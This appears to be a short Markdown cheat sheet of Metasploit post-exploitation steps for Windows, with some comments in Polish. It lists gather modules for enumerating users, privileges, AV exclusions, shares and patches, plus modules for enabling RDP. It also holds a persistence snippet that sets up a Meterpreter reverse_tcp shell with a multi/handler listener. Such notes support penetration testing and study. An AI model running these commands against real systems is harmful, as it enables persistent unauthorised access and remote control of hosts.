 ## msf>search post/windows/(gather)...

|                                         |                                            |
| --------------------------------------- | ------------------------------------------ |
| Enumerate user privileges               | `post/windows/gather/win_privs`            |
| Enumerate logged on users               | `post/windows/gather/enum_logged_on_users` |
| Enum unattended installation file       | `post/windows/gather/enum_unattend`        |
| VM check                                | `post/windows/gather/checkvm`              |
| Enumerate installed programs            | `post/windows/gather/enum_applications`    |
| Enumerate AVs                           | `post/windows/gather/enum_av_excluded`     |
| Enumerate computers connected to domain | `post/windows/gather/enum_computers`       |
| Enumerate installed patches             | `post/windows/gather/enum_patches`         |
| Enumerate shares                        | `post/windows/gather/enum_shares`          |
| enable RDP on target                    | `post/windows/manage/enable_rdp`           |

## Privilege escalation

## Windows Persistence

https://www.hackingarticles.in/multiple-ways-to-persistence-on-windows-10-with-metasploit/

```bash
exploit/windows/local/persistence_service
# set payload windows/meterpreter/reverse_tcp

use multi/handler
set payload windows/meterpreter/reverse_tcp # jak w exploicie wyżej
...
exploit
# opcje payload muszą być takie same
```

## Bypas UAC

https://www.hackingarticles.in/multiple-ways-to-bypass-uac-using-metasploit/

## Enabling RDP

pozwala dodać użytkownika ale nie trzeba

```bash
post/windows/manage/enable_rdp
```
